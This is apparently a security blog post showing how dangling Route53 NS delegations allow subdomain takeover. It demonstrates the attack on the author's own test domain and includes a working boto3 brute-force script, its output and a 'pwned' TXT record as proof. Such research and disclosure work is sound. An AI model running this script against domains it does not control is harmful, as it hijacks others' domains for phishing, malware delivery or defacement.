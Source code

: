 ```yaml
---
layout: post
title: DNS Hijacking and SubDomain Takeover.
date: "2020-03-09"
---
```


# DNS Hijacking a Cloud Provider.

Little is discussed around the nature of DNS hijacking and methods to protect and prevent against these types of attacks. While they are somewhat uncommon they are possible in certain circumstances.

DNS Hijacking can occur in several ways inside a cloud provider environment we will discuss both techniques but take a deeper dive in the DNS based approach.
1) Hijacking a Subdomain allocated to an Elastic IP address that has been released but not deallocated or dereferenced from DNS.
2) Hijacking the delegation set on a Zone record that has yet to be set or was orphaned from a hosted zone.

Lets start with a basic Zone configuration. You will notice we have two configured.

{{< highlight json >}}
{
  "ResponseMetadata": {
    "RequestId": "bf748377-2d28-4cb0-a083-2e59893d4a09",
    "HTTPStatusCode": 200,
    "HTTPHeaders": {
      "x-amzn-requestid": "bf748377-2d28-4cb0-a083-2e59893d4a09",
      "content-type": "text/xml",
      "content-length": "1075",
      "date": "Mon, 09 Mar 2020 21:24:27 GMT"
    },
    "RetryAttempts": 0
  },
  "HostedZones": [
    {
      "Id": "/hostedzone/ZXMG2Y75QXFTA",
      "Name": "twestdev.com.",
      "CallerReference": "447E09A2-A839-05FF-9EC0-79C2A92642D3",
      "Config": {
        "PrivateZone": false
      },
      "ResourceRecordSetCount": 6
    },
    {
      "Id": "/hostedzone/Z2UGQDVTG9409L",
      "Name": "test.twestdev.com.",
      "CallerReference": "2020-03-09 14:17:39.891332",
      "Config": {
        "Comment": "string",
        "PrivateZone": false
      },
      "ResourceRecordSetCount": 2
    }
  ],
  "IsTruncated": false,
  "MaxItems": "100"
}
{{< /highlight >}}

In Route53 we set up zone delegation from twestdev.com using NS records for test.twestdev.com that point to the new hosted zones we created.
Amazon generates these nameservers dynamically, the key here being: along with the zone file. According to AWS's official documentation, the nameserver & zone data, will only be valid for the hosted zone. This means that no other hosted zones in route53 can use these nameservers delegations once they are set up. However, this concept can be exploited as discussed below.

Taking a look at our Primary Zone records you will see zone delegation is set up.
{{< highlight json >}}
{
      "Name": "test.twestdev.com.",
      "Type": "NS",
      "TTL": 300,
      "ResourceRecords": [
        {
          "Value": "ns-364.awsdns-45.com."
        },
        {
          "Value": "ns-625.awsdns-14.net."
        },
        {
          "Value": "ns-2045.awsdns-63.co.uk."
        },
        {
          "Value": "ns-1101.awsdns-09.org."
        }
      ]
}
{{< /highlight >}}

Great so now if we create a Record in the new hosted Zone it should have zone delegation and be able to reply to the DNS request.

JSON used to create record using AWS CLI:
{{< highlight json >}}
{
	"Comment": "",
	"Changes": [{
		"Action": "CREATE",
		"ResourceRecordSet": {
			"Name": "hi.test.twestdev.com",
			"Type": "TXT",
			"TTL": 60,
			"ResourceRecords": [{
				"Value": "\"@helloworld\""
			}]
		}
	}]
}
{{< /highlight >}}

Status:
{{< highlight json >}}
{
    "ChangeInfo": {
        "Id": "/change/C048704510OFKBBIH5SVY",
        "Status": "PENDING",
        "SubmittedAt": "2020-03-09T21:55:27.791Z",
        "Comment": ""
    }
}
{{< /highlight >}}
Results:
{{< highlight bash >}}
dig +short TXT hi.test.twestdev.com
"@helloworld"
{{< /highlight >}}

So now that we are all set up, lets try to execute this attack. For it to work correctly the Zone delegation must be misconfigured. As I originally stated, this is only possible under certain circumstances. The main reason this happens is due to stale references such as stale NS records that point to nameservers that are not active for the hosted zone.

First lets, on purpose, remove the name records (essentially deprovision the Zone).

Command:
{{< highlight python >}}
response = client.delete_hosted_zone(
    Id='/hostedzone/Z2UGQDVTG9409L'
)
{{< /highlight >}}
Response:
{{< highlight json >}}
{'ResponseMetadata': {'RequestId': 'f18f407a-85b7-48a1-a553-e6ea1a8fa2f1', 'HTTPStatusCode': 200, 'HTTPHeaders': {'x-amzn-requestid': 'f18f407a-85b7-48a1-a553-e6ea1a8fa2f1', 'content-type': 'text/xml', 'content-length': '267', 'date': 'Mon, 09 Mar 2020 22:08:01 GMT'}, 'RetryAttempts': 0}, 'ChangeInfo': {'Id': '/change/C06004932TWG0FZEUHNMW', 'Status': 'PENDING', 'SubmittedAt': datetime.datetime(2020, 3, 9, 22, 8, 1, 535000, tzinfo=tzutc())}}
{{< /highlight >}}

Now what happens if we recreate another Zone under test.twestdev.com but reference the already set NameServers and SOA? Well it's not just that simple. In fact that is what I first tried to do, this wont work.

This is because Zone Data for the Hosted zone is dynamically generated for the NameServer Pool.

Amazon generates the respective zones files for the Nameservers when they are first spun up and mapped to our zone. So we cant just create a zone and then change the nameservers to what our dangling records are pointing to.

In order to assure that the respective zone files are set to be delegated correctly, we need to ensure that when we submit the Zone creation request that the Authoritative nameserver matches what was originally set in the dangling DNS record.

In other words, it has to be brute forced. We can do this by utilizing a simple python script to do the dirty work for us.

Script:
{{< highlight python >}}
import boto3, json, datetime, time, sys

client = boto3.client('route53')

targets = ["ns-364.awsdns-45.com","ns-625.awsdns-14.net","ns-2045.awsdns-63.co.uk","ns-1101.awsdns-09.org"]
target_domain = 'test.twestdev.com.'

def cleanup():
    js = client.list_hosted_zones()
    to_delete = []
    for i in js['HostedZones']:
        if i['Name'] == target_domain:
            to_delete.append(i['Id'])
    print("Deleting Oraphaned Zones.")
    for zone in to_delete:
        try:
            res = client.delete_hosted_zone(Id=zone)
            print("Deleted Zone:" + str(zone))
        except:
            print("Couldnt Delete Zone: " + str(zone))
            continue

count = 1
while True:
    print("Searching for NameServer match. Try #" + str(count))
    try:
        response = client.create_hosted_zone(
        Name=target_domain,
        CallerReference=str(datetime.datetime.now()),
        HostedZoneConfig={
          'Comment': 'tdubz',
          'PrivateZone': False
        }
        )
        nameservers=response['DelegationSet']['NameServers']
        print("Created Resource",response['HostedZone']['Id'],nameservers)
        for server in targets:
            if server in nameservers:
                print("Done!")
                print("Created Hosted Zone.")
                print(response['HostedZone'])
                sys.exit()
        else:
            count += 1
            cleanup()
    except Exception as e:
        print("Ran into Exception creating DNS server, ReTrying.")
        print("Exception: " + str(e))
        cleanup()
        continue
{{< /highlight >}}

The script may take a while, it took me around ~46 tries before I got a nameserver delegated to the zone that matches one of the servers set in the NS record.

It may take you longer depending on luck, id say on average probably around ~300 tries.

Script Output:
{{< highlight bash >}}
Searching for NameServer match. Try #44
Created Resource /hostedzone/Z3FPRRZ2KHWS59 ['ns-1710.awsdns-21.co.uk', 'ns-1077.awsdns-06.org', 'ns-480.awsdns-60.com', 'ns-708.awsdns-24.net']
Deleting Oraphaned Zones.
Deleted Zone:/hostedzone/Z3FPRRZ2KHWS59
Searching for NameServer match. Try #45
Created Resource /hostedzone/Z1C0A4QS1XYI36 ['ns-1072.awsdns-06.org', 'ns-111.awsdns-13.com', 'ns-1631.awsdns-11.co.uk', 'ns-1003.awsdns-61.net']
Deleting Oraphaned Zones.
Deleted Zone:/hostedzone/Z1C0A4QS1XYI36
Searching for NameServer match. Try #46
Created Resource /hostedzone/Z3RE92J5ZE7JFN ['ns-625.awsdns-14.net', 'ns-1492.awsdns-58.org', 'ns-233.awsdns-29.com', 'ns-1797.awsdns-32.co.uk']
Done!
Created Hosted Zone.
{'Id': '/hostedzone/Z3RE92J5ZE7JFN', 'Name': 'test.twestdev.com.', 'CallerReference': '2020-03-09 18:42:40.146682', 'Config': {'Comment': 'tdubz', 'PrivateZone': False}, 'ResourceRecordSetCount': 2}
{{< /highlight >}}

With the hard work done, we can now create a new TXT record as part of the POC to show we have taken over the domain successfully.

Im going to create the pwned subdomain to prove the attack was successful.

JSON used to create record using AWS CLI:
{{< highlight json >}}
{
	"Comment": "",
	"Changes": [{
		"Action": "CREATE",
		"ResourceRecordSet": {
			"Name": "pwned.test.twestdev.com",
			"Type": "TXT",
			"TTL": 60,
			"ResourceRecords": [{
				"Value": "\"@pwned\""
			}]
		}
	}]
}
{{< /highlight >}}

And confirming our text record shows up...

Results:
{{< highlight bash >}}
dig +short TXT pwned.test.twestdev.com
"@pwned"
{{< /highlight >}}

What does this mean? Well this means that if an attacker is able to find a dangling NS record set in DNS they can theoretically take control of the affected domain.

This can be used to trick users, launch malware attacks as well as defame the Domain owner. These are all very serious vulnerabilities High if not Critical.

The way to prevent this type of attack is to ensure best practices and sanitization when working with DNS records.
